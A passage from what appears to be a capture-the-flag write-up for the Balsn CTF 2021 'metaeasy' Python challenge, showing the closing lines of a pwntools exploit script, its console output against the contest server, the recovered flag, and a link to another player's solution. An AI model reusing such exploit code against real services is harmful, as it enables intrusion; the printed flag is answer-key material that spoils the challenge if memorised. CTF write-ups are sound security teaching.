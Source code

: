 ```python
    create_method(p, b'B', stageB)
    create_method(p, b'C', stageC)

    for i in [b'A', b'B', b'C']:
        use_method(p, i)

    p.recvuntil(b'Here you go, my master\n')
    flag = p.recvline().strip()

    log.success('Flag: {}'.format(flag.decode()))


if __name__ == '__main__':
    main()
```

Executing the final exploit script gives us our flag.

```console
$ python exploit.py
[+] Opening connection to metaeasy.balsnctf.com on port 19092: Done
[+] Flag: BALSN{Metaclasses_Are_Deeper_Magic_Than_99%_Of_Users_Should_Ever_Worry_About._If_You_Wonder_Whether_You_Need_Them,_You_Don't.-Tim_Peters_DE8560A2}
```

**Flag:** `BALSN{Metaclasses_Are_Deeper_Magic_Than_99%_Of_Users_Should_Ever_Worry_About._If_You_Wonder_Whether_You_Need_Them,_You_Don't.-Tim_Peters_DE8560A2}`

PS: Check out the insane unintended solution using generators by
[maple3142](https://blog.maple3142.net/2021/11/21/balsn-ctf-2021-writeups/#metaeasy).
